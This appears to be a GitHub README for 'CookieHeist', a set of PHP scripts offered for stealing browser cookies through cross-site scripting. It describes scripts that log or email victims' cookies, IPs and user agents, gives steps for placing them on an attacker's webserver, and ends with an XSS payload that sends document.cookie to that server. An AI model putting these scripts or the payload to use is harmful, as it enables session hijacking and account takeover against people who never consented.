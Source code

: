 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to cookielog.txt. 

2. Cookiesteal-simple-v2.php - Records whatever "c" parameter holds, writes value to cookielog.txt and redirects to Google.com.

3. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

4. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):
sudo service apache2 start

2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine


git clone https://github.com/RxSec/CookieHeist


cd CookieHeist


sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/


sudo scp cookielog.txt username@AttackMachine:/var/www/html/


Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
